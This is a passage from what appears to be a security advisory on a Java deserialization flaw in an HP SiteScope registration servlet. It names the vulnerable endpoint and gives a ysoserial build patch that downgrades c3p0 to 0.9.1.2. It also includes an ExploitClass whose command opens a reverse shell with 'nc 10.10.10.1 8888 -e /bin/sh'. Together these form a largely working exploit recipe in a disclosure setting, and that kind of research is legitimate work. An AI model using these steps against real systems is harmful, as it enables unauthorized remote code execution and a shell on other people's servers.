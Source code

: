 ```java
	if (s_logger.isDebugEnabled())
	  s_logger.debug("doPost: Found handler for api " + apiName + ", invoking it..."); 
	invokeHandler(h, requestMap, response);
  }
```
> Snippet D: *com.hp.opr.legacy.sitescope.servlet.RegistrationServlet.doPost()*

As it can be seen in the first few lines, this servlet contains a classic, run of the mill Java Deserialization vulnerability. The request body of the HTTP POST request is turned into a *ObjectInputStream* and then *readObject()* is called on it.

This is trivial to trigger; all that is needed is to send a POST request to  */legacy/topaz/sitescope/conf/registration* with a body with the exploit.

In order to exploit it, it is necessary to compile *ysoserial* with *c3p0 0.9.1.2*. The patch in **Snippet E** should be applied to *ysoserial* before compiling:

```diff
diff --git a/pom.xml b/pom.xml
index 73d39c4..9d27473 100644
--- a/pom.xml
+++ b/pom.xml
@@ -239,7 +239,7 @@
                <dependency>
                        <groupId>com.mchange</groupId>
                        <artifactId>c3p0</artifactId>
-                       <version>0.9.5.2</version>
+                       <version>0.9.1.2</version>
                </dependency>
                <dependency>
                        <groupId>javax.servlet</groupId>
```
> Snippet E: patch to *ysoserial* for *c3p0 0.9.1.2* compilation


In order to exploit this in Windows using the *c3p0 ysoserial* payload, we need to generate an "exploit class":

```sh
cat  << EOF > ExploitClass.java
public class ExploitClass {
	public ExploitClass() throws Exception {
		Runtime rt = Runtime.getRuntime();
		// for Linux
		String[] commands = {"/bin/sh", "-c", "nc 10.10.10.1 8888 -e /bin/sh"};
		// for Windows
		//String[] commands = {"cmd", "/c", "mspaint.exe"};
		Process pc = rt.exec(commands);
		pc.waitFor();
	}
}
EOF
```
> Snippet F: *ExploitClass* code
